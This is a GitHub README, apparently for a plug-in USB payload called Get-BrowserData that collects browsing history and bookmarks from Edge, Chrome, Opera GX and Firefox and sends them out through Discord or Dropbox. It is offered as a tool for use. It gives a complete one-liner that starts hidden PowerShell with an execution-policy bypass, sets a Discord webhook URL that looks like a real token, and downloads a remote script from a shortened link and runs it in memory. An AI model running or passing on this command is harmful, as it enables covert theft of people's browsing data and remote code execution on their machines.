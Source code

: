 
<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>
## Description

This payload can be used to retrieve the browsing history and bookmarks from Edge, Chrome, Opera GX, and Firefox (no bookmarks from firefox currently).

They are then exfiled using either Discord or Dropbox.

## The Function

### [Get-BrowserData] 

* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory
* You no longer need to host your own version of this script
* $db is the variable that holds your DropBox token
* $dc is the variable that holds your Discord webhook
* Fill in either variable or both to set your exfil method

SYNTAX:


```
powershell -w h -ep bypass $dc='https://discord.com/api/webhooks/1092997498089521183/ZzWeOZRzAfNWtqXfzLDv47DMWokwf-yMbhL-px977t0sqqTGDuT9YmI27cIKRrxF9Tza';irm tinyurl.com/browserData1 | iex
```
